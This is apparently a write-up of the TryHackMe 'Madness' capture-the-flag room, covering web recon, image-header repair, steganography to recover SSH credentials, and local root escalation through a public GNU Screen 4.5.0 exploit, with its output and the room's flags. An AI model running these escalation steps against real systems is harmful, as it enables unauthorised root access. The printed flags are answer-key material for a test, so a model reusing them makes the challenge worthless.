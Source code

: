 # Madness

Will you be consumed by Madness?

Note from creator: Please note this challenge does not require SSH brute forcing.

---

Only two open ports.

```
$ nmap -sC -sV 10.10.150.122
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-31 20:59 CEST
Nmap scan report for 10.10.150.122
Host is up (0.051s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ac:f9:85:10:52:65:6e:17:f5:1c:34:e7:d8:64:67:b1 (RSA)
|   256 dd:8e:5a:ec:b1:95:cd:dc:4d:01:b3:fe:5f:4e:12:c1 (ECDSA)
|_  256 e9:ed:e3:eb:58:77:3b:00:5e:3a:f5:24:d8:58:34:8e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Task 1

1. user.txt

Let's see what's possibly there on the webserver.

```
$ gobuster dir -w ~/projects/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.150.122/ -x php,htm,txt,html,py
```

Just an `index.php` file. I can see a broken jpg image in the top left corner..
Opening it in any picture viewer doesn't help. Hexdump shows a PNG header but it
has a JPG file extension. Clearly it won't open like this. What about changing
the header to be JPG? Thanks to [Gary
Kessler](https://www.garykessler.net/library/file_sigs.html) this is an easy
job. By replacing the first 8 bytes (PNG) with the default bytes for JPG/JPEG
we are returned a working image and it shows a hidden directory.
`89 50 4E 47 0D 0A 1A 0A` became `FF D8 FF E0 00 10 4A 46 49 46`

A page is returned with a hint in its source:

```html
<p>To obtain my identity you need to guess my secret! </p>
<!-- It's between 0-99 but I don't think anyone will look here-->
```

Considering it's a PHP page again, let's append `?secret=n` to the URI. Where
`n` is in range of `0` and `99`. Let's run a simple curl against this. The magic
number seems to be 73.

```html
<p>Urgh, you got it right! But I won't tell you who I am! y2RPJ4QaPF!B</p>
```

Running steghide against the fixed JPG file we retrieve a file `hidden.txt`
which contains a username: `wbxre` which looks to be ROT13 encoded. A quick
search returns this to be `joker`.

So does this combination of username and password help us log in to the box?
Nope. To get past this point I had to look at someone else's writeup. Seems the
image embedded in the task contains some steganography too.

```bash
$ wget https://i.imgur.com/5iW7kC8.jpg
$ steghide extract -sf 5iW7kC8.jpg
$ cat password.txt
```

There's a working SSH password in there! After SSH'ing into the box, we can
grab the flag:

```
joker@ubuntu:~$ cat user.txt
THM{d5781e53b130efe2f94f9b0354a5e4ea}
```

2. root.txt

So now that we're on the box, we should try and find a way up to root. With
`find` I could find some binaries with the suid flag owned by root:

```bash
$ find / -perm /4000 -user root
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/sudo
/bin/fusermount
/bin/su
/bin/ping6
/bin/screen-4.5.0
/bin/screen-4.5.0.old
/bin/mount
/bin/ping
/bin/umount
```

Here the `screen-4.5.0` and `screen-4.5.0.old` binaries are interesting as
they can be used for local privilege escalation... Let's try to use this
[example](https://www.exploit-db.com/exploits/41154)

And hey presto, we're root.

```
joker@ubuntu:/dev/shm$ chmod +x screenroot.sh
joker@ubuntu:/dev/shm$ ./screenroot.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function ‘dropshell’:
/tmp/libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^
/tmp/rootshell.c: In function ‘main’:
/tmp/rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
     setuid(0);
     ^
/tmp/rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
     setgid(0);
     ^
/tmp/rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
     seteuid(0);
     ^
/tmp/rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
     setegid(0);
     ^
/tmp/rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-joker.

# id
uid=0(root) gid=0(root) groups=0(root),1000(joker)
```

```
# cat /root/root.txt
THM{5ecd98aa66a6abb670184d7547c8124a}
```
